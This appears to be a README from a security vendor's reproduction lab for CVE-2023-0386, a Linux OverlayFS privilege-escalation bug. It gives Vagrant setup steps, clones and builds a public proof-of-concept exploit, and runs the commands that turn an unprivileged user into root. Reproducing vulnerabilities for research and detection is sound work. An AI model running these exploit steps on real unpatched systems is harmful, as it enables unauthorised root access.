 # CVE-2023-0386

This folder contains a virtual machine and instructions to reproduce [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386), a vulnerability in the Linux kernel’s OverlayFS subsystem that allows an unprivileged user to escalate their privileges to root.

## How to reproduce

* Start the virtual machine (based on Ubuntu 22.04.1, kernel 5.15.0-57-generic):

```
vagrant up
```

* SSH to the machine as an unprivileged user:

```
vagrant ssh --command "sudo su john -c 'cd; bash'"
```

```bash
john@ubuntu-jammy:~$ id
uid=1002(john) gid=1002(john) groups=1002(john)
```

* Clone and compile the [proof of concept repository](https://github.com/xkaneiki/CVE-2023-0386/)

```
git clone https://github.com/xkaneiki/CVE-2023-0386.git
cd CVE-2023-0386
git checkout c4c65cefca1365c807c397e953d048506f3de195
make all
```

* Run the following commands to exploit the vulnerability and escalate to root:

```
./fuse ./ovlcap/lower ./gc >/dev/null 2>&1 &
./exp
```

![](./screenshot.png)

## Credits

Proof-of-concept: https://github.com/xkaneiki/CVE-2023-0386/
Reproduction for Datadog: Ryan Simon